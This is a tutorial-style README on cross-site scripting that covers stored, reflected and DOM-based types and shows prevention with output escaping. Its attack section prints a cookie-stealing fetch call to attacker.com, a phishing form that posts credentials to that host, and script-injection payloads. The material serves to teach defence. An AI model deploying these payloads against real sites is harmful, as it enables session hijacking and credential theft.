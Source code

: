 # **Cross-Site Scripting (XSS)**

Cross-Site Scripting (XSS) is a critical security vulnerability in web applications that allows attackers to inject and execute malicious scripts in a user’s browser. These scripts can compromise sensitive data, hijack user sessions, deface websites, or perform unauthorized actions.

## **Objective**

This documentation aims to provide a clear understanding of XSS, its types, how it works, and how to prevent it. It includes detailed code examples to help developers recognize and mitigate XSS risks.

## **What is Cross-Site Scripting (XSS)?**

XSS is a **web security vulnerability** where attackers inject **malicious scripts** into web pages. These scripts can manipulate the DOM, steal sensitive data, and impersonate users. XSS attacks usually exploit vulnerabilities in input handling and output rendering in web applications.

![](./images/Diagrams.drawio.svg)

## **How Does XSS Work?**

### **1. Injection**  
The attacker injects **malicious input** into a vulnerable part of the web application, such as a form, URL parameter, or comment section. This input is designed to be processed as executable code rather than plain text.

- Example injection in a form field:  
  ```html
  <script>alert('XSS Attack');</script>
  ```

### **2. Execution**  
The browser executes the injected script when the user accesses the page containing the malicious input. Depending on the type of XSS (Stored, Reflected, or DOM-Based), this could happen automatically (Stored XSS) or require a user to click a malicious link (Reflected XSS).

- Example vulnerable output:  
  ```html
  <p>Search results for: <script>alert('XSS Attack');</script></p>
  ```
  
The browser renders and runs the script, displaying an alert box in this example.

### **3. Attack**  
Once executed, the script can perform harmful actions such as:
- **Stealing cookies**:  
  ```javascript
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
  ```
- **Manipulating the page (DOM)**:  
  ```javascript
  document.body.innerHTML = '<h1>This site has been hacked!</h1>';
  ```
- **Tricking users with phishing forms**:
  ```html
  <form action="https://attacker.com/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  ```

---

## **Types of XSS Attacks**

1. **Stored XSS (Persistent XSS)**  
2. **Reflected XSS (Non-Persistent XSS)**  
3. **DOM-Based XSS**

---

### **1. Stored XSS (Persistent XSS)**  
In **Stored XSS**, the malicious input is saved on the server, such as in a database. It gets embedded in a web page and automatically executed whenever a user accesses that page. For example, an attacker could post a comment containing a script, which runs whenever someone views the comment.

---

### **2. Reflected XSS (Non-Persistent XSS)**  
In **Reflected XSS**, the injected script is not stored on the server. Instead, it is included in the server's response based on user input. The attack usually requires the victim to click a malicious link that contains the script in a query parameter or form submission.

---

### **3. DOM-Based XSS**  
In **DOM-Based XSS**, the vulnerability is present in client-side JavaScript code. The application reads untrusted input (e.g., from the URL) and dynamically manipulates the page's content, leading to script execution without any server involvement.

---

## **Reflected XSS in Detail**

### **What is Reflected XSS?**

Reflected XSS, also known as **non-persistent XSS**, occurs when the web application immediately reflects user input in the server’s response without properly validating or escaping it. Since the input is not stored, the attack typically relies on **social engineering** to trick the user into visiting a specially crafted malicious link.

---

### **How Reflected XSS Works**

1. **Malicious Input Submission:** The attacker sends a crafted input (e.g., a `<script>` tag) through a URL or form.
2. **Reflection:** The server includes this input in its HTML response without sanitization.
3. **Script Execution:** When the victim views the response, the browser executes the script.

#### **Example Scenario**
- A website search feature is vulnerable and reflects user input:
  ```html
  <p>Search results for: {user_input}</p>
  ```

- An attacker crafts a malicious link:
  ```
  https://example.com/search?query=<script>alert('XSS Attack');</script>
  ```

- The script is reflected in the page output:
  ```html
  <p>Search results for: <script>alert('XSS Attack');</script></p>
  ```

- When the victim clicks the link, the browser executes the script, displaying an alert box.

---

### **Impact of Reflected XSS**

- **Stealing Sensitive Data:** Attackers can steal cookies, session tokens, and other sensitive information.
- **Session Hijacking:** By stealing session data, attackers can impersonate users and gain unauthorized access to their accounts.
- **Phishing:** Attackers can trick victims into entering credentials by displaying fake login forms.
- **Page Defacement:** The attacker can alter the appearance and content of the web page.

---

### **Prevention of Reflected XSS**

To prevent reflected XSS attacks, implement the following measures:

1. **Input Validation:** Ensure user input adheres to expected formats (e.g., allow only alphanumeric characters).
2. **Output Encoding:** Encode user input before including it in the HTML output, escaping special characters like `<`, `>`, `&`, `'`, and `"`.

**Example (Python with Flask):**
```python
from flask import request, escape

@app.route('/search')
def search():
    query = request.args.get('query')
    return f"<p>Search results for: {escape(query)}</p>"
```

3. **Use Secure APIs:** Avoid inserting user input directly into HTML or JavaScript. Use methods like `textContent` instead of `innerHTML` to prevent script execution.

---

### **Hands-on Example: Reflected XSS**
*(This section is reserved for a practical demonstration to be added later.)*

--- 

This completes the detailed explanation of Reflected XSS.